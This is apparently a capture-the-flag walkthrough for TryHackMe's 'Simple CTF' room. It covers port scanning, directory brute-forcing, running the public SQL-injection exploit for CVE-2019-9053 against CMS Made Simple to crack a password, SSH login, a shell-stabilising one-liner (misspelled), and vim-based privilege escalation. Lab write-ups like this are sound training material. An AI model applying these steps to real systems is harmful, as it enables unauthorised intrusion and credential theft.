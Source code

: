 # [Simple CTF][1]

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/open_ports.jpg)

Looks like we have three ports open: `21, 80, 2222`

*How many services are running under port 1000?*
> ***2***

*What is running on the higher port?*
> ***SSH***

- Checked the website, nothing much.

- Checked `robots.txt`, found some details. I think I found a username. Will investigate later.

![Robot.txt](images/robots.jpg)

- Run GoBuster -> `gobuster dir http://<IP> -w /usr/share/wordlists/dirb/common.txt`

![GoBuster](images/gobuster.jpg)

> There is one directory that catches my eye is `/simple`. So I checked the site `http://<IP>/simple`. Seems like ***CMS Made Simple*** Webpage. At the bottom there is version of it mentioned as well.

![CMS](images/cms.jpg)

The `CMS made simple 2.2.8` can be searched on CVE Details website for vulnerability or `searchsploit` database can be used, CMD -> `searchsploit cms made simple 2.2.8`

![Searchsploit Result](images/searchexploit.jpg)
> Looks like we found an **SQL Injection** with this version and the exploit is located in `/usr/share/exploitdb/exploits/php/webapps/46635.py`

Check the file data to get the CVE number.

![CVE Details](images/cve.jpg)

*What's the CVE you're using against the application?*
> ***CVE-2019-9053***

*To what kind of vulnerability is the application vulnerable?*
> ***SQLi***

Run the file -> `sudo python /usr/share/exploitdb/exploits/php/webapps/46635.py`

![Run file](images/run_tech.jpg)

> If you have an error for *termcolor*.

![Python Error](images/python_error.jpg)

Download the **binaries** from the [Official Website][3]. Unzip the file using command `tar -xf <file_name>`. Change directory to the extracted folder and run `sudo python setup.py install`. This will solve your termcolor error.

Run the file with `sudo python usr/share/exploitdb/exploits/php/webapps/46635.py -u http://<IP>/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt`

![Script Run](images/script_run.jpg)

> The user credential is `mitch:secret`

*What's the password?*
> **secret**

As we know `ssh` is open. Let's try to connect -> `ssh mitch@<IP> -p 2222`

![SSH](images/ssh.jpg)

*What's the user flag?*

![User Flag](images/user_flag.jpg)

*Is there any other user in the home directory? What's its name?*
> ***sunbath***

![Other User](images/other_user.jpg)

*What can you leverage to spawn a privileged shell?*
> ***vim***

![Privilege Escalation](images/priv_escal.jpg)

First let's make this shell stable by typing -> `python3 -c 'import pty;pty.spwan("/bin/bash")'`.

![Stable Shell](images/shell_stable.jpg)

I searched online for privilege escalation for `vim` and I got a link from [GTFOBins][4].

Run the commands.

![Vim Escalate](images/vim_escal.jpg)

*What's the root flag?*

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/easyctf
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://pypi.org/project/termcolor/#files
[4]: https://gtfobins.github.io/gtfobins/vim/
